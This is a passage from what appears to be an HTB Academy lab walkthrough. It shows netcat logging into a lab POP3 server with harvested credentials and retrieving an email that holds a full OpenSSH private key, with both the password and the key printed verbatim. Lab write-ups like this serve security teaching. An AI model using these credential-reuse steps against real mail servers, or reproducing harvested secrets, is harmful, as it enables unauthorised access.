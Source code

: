 **Result**: Valid credentials `simon:8Ns8j1b!23hs4921smHzwn` discovered

---

## 📧 Phase 5: POP3 Email Access & SSH Key Extraction

### POP3 Mail Access
```bash
# HTB Academy POP3 email access
nc -nv 10.129.183.208 110

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 10.129.183.208:110.
+OK Dovecot (Ubuntu) ready.

user simon
+OK

pass 8Ns8j1b!23hs4921smHzwn
+OK Logged in.
```

### Email Enumeration & Retrieval
```bash
# HTB Academy email listing and retrieval
list
+OK 1 messages:
1 1630
.

retr 1
+OK 1630 octets
From admin@inlanefreight.htb  Mon Apr 18 19:36:10 2022
Return-Path: <root@inlanefreight.htb>
X-Original-To: simon@inlanefreight.htb
Delivered-To: simon@inlanefreight.htb
Received: by inlanefreight.htb (Postfix, from userid 0)
	id 9953E832A8; Mon, 18 Apr 2022 19:36:10 +0000 (UTC)
Subject: New Access
To: <simon@inlanefreight.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20220418193610.9953E832A8@inlanefreight.htb>
Date: Mon, 18 Apr 2022 19:36:10 +0000 (UTC)
From: Admin <root@inlanefreight.htb>

Hi,
Here is your new key Simon. Enjoy and have a nice day..

-----BEGIN OPENSSH PRIVATE KEY----- 
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAlwAAAAdzc2gtcn NhAAAAAwEAAQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S4 4W1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKm w5xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAIITrtUA067VAMAAAAH c3NoLXJzYQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S44W 1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKmw5
xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAADAQABAAAAgQe3Qpknxi 6E89J55pCQoyK65hQ0WjTrqCUvt9oCUFggw85Xb+AU16tQz5C8sC55vH8NK9HEVk6/8lSR Lhy82tqGBfgGfvrx5pwPH9a5TFhxnEX/GHIvXhR0dBlbhUkQrTqOIc1XUdR+KjR1j8E0yi ZA4qKw1pK6BQLkHaCd3csBoQAAAEECeVZIC1Pq6T8/PnIHj0LpRcR8dEN0681+OfWtcJbJ hAWVrZ1wrgEg4i75wTgud5zOTV07FkcVXVBXSaWSPbmR7AAAAEED81FX7PttXnG6nSCqjz B85dsxntGw7C232hwgWVPM7DxCJQm21pxAwSLxp9CU9wnTwrYkVpEyLYYHkMknBMK0/QAA AEEDgPIA7TI4F8bPjOwNlLNulbQcT5amDp51fRWapCq45M7ptN4pTGrB97IBKPTi5qdodg 
O9Tm1rkjQ60Ty8OIjyJQAAABBzaW1vbkBsaW4tbWVkaXVtAQ== 
-----END OPENSSH PRIVATE KEY-----

quit
```